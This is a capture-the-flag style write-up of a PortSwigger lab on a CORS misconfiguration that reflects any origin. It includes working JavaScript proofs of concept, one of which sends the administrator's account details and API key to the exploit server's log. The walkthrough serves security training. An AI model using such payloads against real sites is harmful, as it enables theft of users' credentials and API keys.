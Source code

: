 ```yaml
---
author: Nithissh S
pubDatetime: 2024-10-16T15:22:00Z
modDatetime: 2024-10-16T09:12:47.400Z
title: CORS vulnerability with basic origin reflection
slug: cors-portswigger-lab-1
featured: false
draft: false
tags:
  - BSCP
  - CORS
description:
  This website has an insecure CORS configuration in that it trusts all origins. To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key. You can log in to your own account using the following credentials wiener:peter    
---
```


## Introduction

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: **wiener:peter** 

## Solution

Looks like an ecommerce website which we faced in other labs as well 

![](../../assets/images/bscp/cors/cors-1.png)

Through the lab objective, we have also have our own account where you can login using these credentials `wiener:peter` and once after login, we also have our own API key 

![](../../assets/images/bscp/cors/cors-2.png)

Looking into the source, we found a javascript code snippet where it fetches the API key through an endpoint called `/accountDetails` with headers as `credentials: include` which means you should be logged in on any account where as cookie is sent along with the request and then dumps the information in a json format.. Then, it updates an element on the webpage with the ID `apikey` to display the `apikey` from the response data.

```js
fetch('/accountDetails', {credentials:'include'})
      .then(r => r.json())
      .then(j => document.getElementById('apikey').innerText = j.apikey)
```

Accessing the `/accountDetails` endpoint presented with some sensitive values like **sessions, email, APIkey and username** in a JSON format 

![](../../assets/images/bscp/cors/cors-3.png)

In order to check whether the cross origin, we can intercept the request in burpsuite, send it to repeater, send the request and analysing the response shows that the `Access-Control-Allow-Credentials` set to true which means the credentials are allowed to sent along the request 

![](../../assets/images/bscp/cors/cors-4.png)

Now In the request, pass along the header called `Origin:` with a value as `https://example.com` and sent the request.. In the response shows that `ACAO` set to our own example website which we passed via `Origin:` header 

![](../../assets/images/bscp/cors/cors-5.png)

Now with a sample CORS, we can check whether we can dump the info from `/accountDetails` endpoint locally with the following POC

```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://0acf00300445651880a44e0c002000f5.web-security-academy.net/accountDetails", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
 ```

Save this as HTML file locally and open in any browser, click on exploit and now you will be presented with the response information as a popup with the current loggedin user 

![](../../assets/images/bscp/cors/cors-6.png)

Now again in order to solve the lab, we need to steal the administrator's API key 

**With the following POC,**

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a90007603b4470f808430ae0091001b.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

In the exploit server, with the above POC and click on deliver to victim.. Checking the access log we can see the admin credentials

![](../../assets/images/bscp/cors/cors-7.png)

Take the admin API key and submit it as solution to solve the lab 

![](../../assets/images/bscp/cors/cors-8.png)